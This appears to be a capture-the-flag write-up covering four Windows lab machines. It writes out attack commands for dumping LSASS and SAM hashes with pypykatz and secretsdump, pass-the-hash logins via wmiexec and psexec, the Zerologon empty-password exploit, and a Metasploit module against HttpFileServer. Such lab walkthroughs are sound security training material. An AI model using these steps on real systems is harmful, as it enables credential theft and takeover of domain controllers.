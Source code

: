 ﻿# Westeros

### Dumped
After making a quick  port scan with nmap:

    nmap -Pn <target_ip>
![](https://i.ibb.co/6H8pkPh/Screen-Shot-2022-12-29-at-9-23-03-AM.png)
We can see that there is some opened ports, including an 80 http port.
So we go to our browser to check it out.
![enter image description here](https://i.ibb.co/Vm5gJJt/Screen-Shot-2022-12-29-at-9-29-03-AM.png)
After accessing the address, we see an enumeration of a directory and two other files, we enter to the dumps directory and there it is:
![](https://i.ibb.co/wcpHG80/Screen-Shot-2022-12-29-at-9-32-25-AM.png)An interesting files ```lsass.DMP``` that can be very helpful to find some hashes or passwords, so we click on it to download and go to our terminal to see if there is anything we can do.

First what is ```Lsass```:

> The Local Security Authority Subsystem Service (LSASS) is a process in
> Microsoft Windows operating systems that is responsible for enforcing
> the security policy on the system, such as verifying users during
> users logons and password changes.

And LSASS.DMP is a file that is created when the (LSASS) process on Windows system crashes. When it crashes, it generates a memory dump file that contains information about the state of the system at the time of the crash, like we said users logons and password changes.
So if we are lucky enough, we can find some NTLM hashes or any plain text password.
To extract the informations from the file we used a tool called ```pypykatz```, so we type our command:

    pypykatz lsa minidump lsass.DMP
![enter image description here](https://i.ibb.co/52PyX1T/Screen-Shot-2022-12-29-at-10-08-58-AM.png)
There it is an NT hash for an Administrator user, so let's sign in with this username and NT hash using wmiexec.py

     wmiexec.py -hashes :78f9261c7b0f08bd9a3b3b13340e4c2a Administrator@<targer_ip>
![enter image description here](https://i.ibb.co/BNnPpk6/Screen-Shot-2022-12-29-at-10-15-12-AM.png)
There it is we got access successfully, now we just need to look for our flag that i found in C:\Users\Administrator\Desktop.

### Shared

First thing we do a quick port enumeration with nmap:

    nmap -Pn 172.16.4.161

![enter image description here](https://i.ibb.co/0JZy77D/Screen-Shot-2022-12-29-at-10-39-19-AM.png)Nothing special here, what we can do is to look for any opened shares in this machine, to list the shares we use

    smbclient -L <target_ip>
![enter image description here](https://i.ibb.co/7V9Q4Q3/Screen-Shot-2022-12-29-at-10-43-36-AM.png)We can see that there is 4 different shares, but there is one that we can access without credentials, it's the backup share.
So we access it with ```smbclient```

    smbclient \\\\<target_ip>\\Backup
We press enter for the password and we are in, we try ```ls``` to enumerate if there is any files.
![enter image description here](https://i.ibb.co/882ZqZG/Screen-Shot-2022-12-29-at-10-49-08-AM.png)We try to download the files with the get command, ```get <file>```.

The SAM.SAVE, SYSTEM.SAVE, and SECURITY.SAVE files are all related in that they are backup copies of system-level registry hives on a Windows system.

The SAM.SAVE file is a backup copy of the Security Account Manager (SAM) registry hive, which contains information about user accounts on the system, including user names, passwords, and security identifiers (SIDs).

The SYSTEM.SAVE file is a backup copy of the SYSTEM registry hive, which contains important system-level configuration information, including information about device drivers, system services, and other system components.

The SECURITY.SAVE file is a backup copy of the SECURITY registry hive, which contains security-related information for the system, including access control lists (ACLs) and security policies.

To dump some informations from this files we use ```secretsdump.py```

    secretsdump.py -sam sam.save -system system.save -security security.save LOCAL

SecretsDump should extract information from the SAM.SAVE, SYSTEM.SAVE, and SECURITY.SAVE files and that it should perform the extraction locally on the system where the command is being run.

![enter image description here](https://i.ibb.co/JFgSTyS/Screen-Shot-2022-12-29-at-11-35-00-AM.png)There it is, the NTLM hash of The Administrator user, so now we gonna try to get a shell using this hash with psexec.

    psexec.py -hashes <NTLM_Hash> <user>@<target_ip> cmd.exe

![enter image description here](https://i.ibb.co/VY3nVkP/Screen-Shot-2022-12-29-at-11-42-42-AM.png)And congratulation we got the shell, now go and find your flag.

### Eggshell

For this machine, i tried to test the Zerologon vulnerability.
First, we need to test if this machine is vulnerable to Zerologon, to test it, we can use a script that you can find here: [Zerologon_tester](https://github.com/SecuraBV/CVE-2020-1472)
So we run the script :

    python3 zerologon_tester.py DC-NAME <target_ip>
   
We can get the DC-NAME or Domain Controller name, with an nmap scan:

    nmap -A -Pn <target_ip>
![enter image description here](https://i.ibb.co/r2F4y6n/Screen-Shot-2022-12-29-at-1-14-32-PM.png)And the Name is ```SRV-DC1```, so now we run the script:
![enter image description here](https://i.ibb.co/QmT3Gry/Screen-Shot-2022-12-29-at-1-17-21-PM.png)
So it can be exploit it, now to use it we gonna run this script: [Zerologon_exploit](https://github.com/risksense/zerologon)
The command gonna look like this:

    python3 set_empty_pw.py <DC-NAME> <target_ip>
   
![enter image description here](https://i.ibb.co/yYWR0RL/Screen-Shot-2022-12-29-at-1-31-40-PM.png)That was successful now we gonna dump the hashes with ```secretsdump.py```

    secretsdump.py -just-dc <DC-NAME>\$@<target_ip>

We can grep the Administrator hash directly:

![enter image description here](https://i.ibb.co/VNn9Y6k/Screen-Shot-2022-12-29-at-1-41-33-PM.png)And there it is, now we can log as Administrator using the NTLM hash with ```psexec.py```:

    psexec.py -hashes <NTLM_Hash> <user>@<target_ip> cmd.exe

![enter image description here](https://i.ibb.co/ynLYSPT/Screen-Shot-2022-12-29-at-1-45-14-PM.png)Here we go, you can search for the flag.

### Exposed

First of all, we start with out nmap scan

    nmap -A -Pn <target_ip>

We found an http port used by HttpFileServer httpd 2.3, we do a quick google search and we found this article, that gonna help us getting a remote command execution, you can find it here : [Article
](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/windows/http/rejetto_hfs_exec)
Now we gonna our metasploit console to use ``exploit/windows/http/rejetto_hfs_exec``, we set the target host using ```set RHOSTS <target_ip>``` and  run exploit, There it is we got a shell

![enter image description here](https://i.ibb.co/fCmRD9F/Screen-Shot-2022-12-29-at-2-21-36-PM.png)So you should find the flag now.
